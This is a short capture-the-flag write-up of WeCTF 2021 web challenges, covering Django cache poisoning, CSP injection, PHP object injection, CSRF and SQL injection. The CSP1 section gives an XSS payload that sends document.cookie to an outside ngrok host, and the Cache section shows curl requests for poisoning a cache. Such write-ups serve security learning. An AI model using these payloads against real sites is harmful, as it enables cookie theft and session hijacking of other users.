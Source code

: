 # WeCTF 2021

[WeCTF 2021 Github REPO](https://github.com/wectf/2021)

## Cache

Two problem from the implementation. According to the documentation of [Django re_path](https://docs.djangoproject.com/en/3.2/ref/urls/#re-path), the parameter should be a regular expression. Matching with `"flag"` actually means that **path contains "flag" will trigger the handler**, e.g `/sdfafds/flag`, `/flag_custom.css`. Secondly, cache implementation is based on user_provided url **, but cookie content is not a cache key**. This opening a opportunity for cache poisoning attack.

```shell
# Admin view the page
curl -X GET --cookie "token=CroRQgDwMmJdybKa" "http://140.113.194.71:4002/flag_RetrOisHere.css"

# Attacker view the page
curl -X GET "http://140.113.194.71:4002/flag_RetrOisHere.css"
```

## CSP1

The app is vulnerability to csp policy injection. Except `connect-src`, other policies can be modified. Pair with xss, we can achieve cookie exfiltration.

```html
<!-- Payload -->
<img src="http://140.113.42.242; script-src 'unsafe-inline' 9a4c-140-113-229-111.ngrok.io">

<script>
  let sc = document.createElement("script")
  sc.src = "http://9a4c-140-113-229-111.ngrok.io/?coo=" + document.cookie

  document.body.appendChild(sc)
</script>
```

## Include

url: `/?🤯=/flag.txt`

## CSP 2/3

Php Object Injection at `/?method=post`, Report URI Modification, Data Exfiltration

## Coin Exchange

WebSocket + CSRF

## Cloudtable

SQLi Injection /w Mysql
